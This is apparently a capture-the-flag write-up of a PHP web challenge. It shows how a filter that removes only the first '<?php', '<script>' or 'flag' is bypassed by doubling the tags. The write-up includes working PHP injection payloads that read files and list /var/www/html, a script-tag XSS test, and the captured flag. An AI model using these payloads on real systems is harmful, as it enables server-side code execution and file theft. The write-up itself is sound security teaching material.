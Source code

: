 # web/ProgrammersHateProgramming

>web/ProgrammersHateProgramming

> Points\
>just a little different than normally. Link: http://147.182.172.217:42002/index.php

***

Right away, you can see that this website simply repeats what youve typed back to it, looks like xss to me

Taking a look at the provided source code, you can see that it removes any instance of "<?php", "?>", "<script>", "</script>" or "flag"

But whats that, it only removes the first instance! I immediately test
```php
<?php<?php echo '<b>Hello World</b>'; ?>?>
```
and sure enough it repeats in bold, onyl removing one instance of the php stuff

Similarily, I try
```javascript
<script><script>document.write(5 + 6);</script></script>
```
and it shows 11 as expected

Now to find the flag, sadly 
```php
<?php<?php
$myfile = fopen("flagflag.php", "r") or die("Unable to open file!");
echo fread($myfile,filesize("flag.php"));
fclose($myfile);
?>?>
```
Told me it doesnt exist in "/var/www/html/q4XjMFfKruNEK8G.php". So I tried
```php
<?php<?php
$myfile = fopen("/var/www/html/flagflag.php", "r") or die("Unable to open file!");
echo fread($myfile,filesize("/var/www/html/flag.php"));
fclose($myfile);
?>?>
```
and got a similar error, after playing around a bit, it was time to bring out the big guns

I found this stack overflow, https://stackoverflow.com/questions/24783862/list-all-the-files-and-folders-in-a-directory-with-php-recursive-function
which gave me 
```php
<?php<?php
function getDirContents($dir, &$results = array()) {
    $files = scandir($dir);

    foreach ($files as $key => $value) {
        $path = realpath($dir . DIRECTORY_SEPARATOR . $value);
        if (!is_dir($path)) {
            $results[] = $path;
        } else if ($value != "." && $value != "..") {
            getDirContents($path, $results);
            $results[] = $path;
        }
    }

    return $results;
}

var_dump(getDirContents('/var/www/html'));?>?>
```
and also gave me a HUGE list of php files similar to the output of this one. Unable to find a smart way to sift through them (I could see most recent were mine), I started from the oldest and worked forwards

I found some weird output, and then came across "0HSDLbraxTMJQXm.php" with the desired flag, 
```
flag{server_side_php_xss_is_less_known_but_considering_almost_80%_of_websites_use_php_it_is_good_to_know_thank_me_later_i_dont_want_to_stop_typing_this_flagg_is_getting_long_but_i_feel_like_we're_developing_a_really_meaningful_connection}
```
